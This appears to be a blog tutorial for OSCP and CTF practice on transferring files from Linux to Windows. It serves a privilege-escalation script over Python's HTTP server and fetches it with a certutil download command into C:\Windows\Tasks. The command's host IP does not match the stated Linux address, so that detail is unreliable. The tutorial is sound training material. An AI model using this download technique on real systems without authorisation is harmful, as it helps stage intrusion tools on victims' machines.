 ```yaml
---
layout: post
title: 'File Transfers - Part 2: Linux To Windows'
date: '2022-10-22 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, windows, oscp, python, file-transfer, pentesting, code, tutorial, ctf]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

# Linux to Windows File Transfer

## Scenario

We have a Windows and a Linux system connected to the same local network.

UBUNTU LINUX - 192.168.56.103<br>
WINDOWS 10 - 192.168.56.104

- We want to transfer the file `PrivescCheck.ps1` from LINUX to the WINDOWS system

![file-to-transfer](/assets/img/file-transfers-2/file-to-transfer.png)

- We will transfer the file to `C:\Windows\Tasks` on WINDOWS, since our fresh WINDOWS 10 install gives members of the **Authenticated Users** group write permissions on this directory, and it is currently empty.

![icacls-tasks](/assets/img/file-transfers-2/icacls-tasks.png)
<br>
![empty-dir](/assets/img/file-transfers-2/empty_dir.png)

In order to transfer a file FROM a Linux machine, we need to make it accessible to a remote machine. 
There are a number of ways we can do this. However, for this tutorial we will be using the **Python HTTP Server**.
We covered how to do this in [File Transfers: Part 1](https://dev-0x0.github.io/posts/file-transfers).

## Transferring the File

On our Linux system, we serve the file using the **Python HTTP Server.**

![serve-file](/assets/img/file-transfers-2/serve-file.png)

We now have a number of ways we can transfer the file to the Windows system. It's important to know the different methods you can use, as sometimes during a pentest, the OSCP, or a CTF, the system has been configured to make it harder for you to transfer files, leaving certain options unavailable to you. In this tutorial, we will use the Windows `certutil` tool.

### Certutil.exe

According to [Microsoft](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil), "Certutil.exe is a command-line program, installed as part of Certificate Services". It is generally installed on Windows systems by default. However, we can use **certutil** to transfer files using the following command from our WINDOWS system. Providing a specific download location at the end of the command is generally optional, but may be necessary in certain situations.

`certutil -urlcache -split -f http://192.168.56.102:8000/PrivescCheck.ps1 [DOWNLOAD LOCATION]`
![certutil](/assets/img/file-transfers-2/certutil.png)

Listing the directory on WINDOWS, we can see that the file transferred successfully.

Looking at our **Python HTTP Server** on Linux, we can see the GET request that was made by **certutil**.
Sometimes there are two requests, that's okay.
![get-req1](/assets/img/file-transfers-2/get-req1.png)

## Conclusion

`Certutil.exe` is a very useful tool for file-transfers to Windows systems. Hopefully if you're reading this,
you found something of use here. Please check out the other [File-Transfer tutorials](https://dev-0x0/) for more. Thanks for reading!









